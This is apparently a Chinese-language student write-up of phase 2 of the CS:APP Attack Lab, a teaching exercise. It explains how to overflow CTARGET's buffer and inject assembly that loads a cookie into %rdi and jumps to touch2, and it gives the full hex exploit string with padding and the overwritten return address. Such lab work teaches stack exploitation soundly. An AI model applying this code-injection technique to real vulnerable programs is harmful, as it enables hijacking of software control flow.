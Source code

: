 Your task is to get CTARGET to execute the code for touch2 rather than returning to test. In this case, however, you must make it appear to touch2 as if you have passed your cookie as its argument.

题目的意思很简单, 接着题目1, 现在要跳转的函数是touch2, 只不过touch2需要一个参数val, val是cookie的值. 这里就要用到注入了, 如何生成注入代码,请参照 attack lab的write up的Appendix B.

说明:cookie在lab文件中有, 我这里它是 0x59b997fa.

关键点:

1. cookie值
2. rdi寄存器保存函数的第一个参数.

思路简单:

1. 设置rdi = cookie value
2. 跳转到touch2即可.

但是这里存在两个跳转, 1.跳转我们的注入代码的首地址.2.跳转到touch2. 画个图看看:

![image-20200720232843852](https://ravenxrz-blog.oss-cn-chengdu.aliyuncs.com/img/github_img/image-20200720232843852.png)

也就是说,我们首先应该跳转到我们注入的代码的首地址, 然后注入代码执行过程中(红色的区域的某个部分),又跳转到touch2. 

跳转1很直观, 我们覆盖了原来的地址, 那跳转2如何实现?

这个就要理解清除call和ret指令的工作了, 简单说来:

1. call, %rsp-1, push当前执行指令的指令到%rsp所指的内存空间, 设置%rip为要跳转的函数的第一条指令地址.
2. ret, pop %rsp指向的内存空间的内容到 %rip, %rsp+1.

于是要实现跳转2, 我们只用push touch2的第一条指令的地址到$%rsp, %rsp-1即可. 其实也就一条命令:

```asm
push touch2_address
```

至于设置%rdi=cooike, 那就很直接了:

```asm
mov cookie_value, %rdi
```

结合两条指令, 写出汇编代码:

```asm
mov cookie_value, %rdi
push touch2_address
ret
```

更换为实际value, 并用objdump反汇编,最终可得答案:

```asm
/* question2: */
48 c7 c7 fa 97 b9 59 /* mov $0x59b997fa      %rdi 设置cooike */
68 ec 17 40 00       /* pushq  $0x4017ec     push touch2的地址 */
c3                   /* ret                  返回 */
/* 上面一共13个字节, buf一共40个字节所以需要填充 40-13=27个字节 */
00 00 00 00 00 00 00 00 /* 8 bytes */
00 00 00 00 00 00 00 00 /* 8 bytes */
00 00 00 00 00 00 00 00 /* 8 bytes */
00 00 00                /* 3 bytes */
78 dc 61 55 00 00 00 00 /* exploit string code 的开始地址（即get buf的栈地地址) */
```

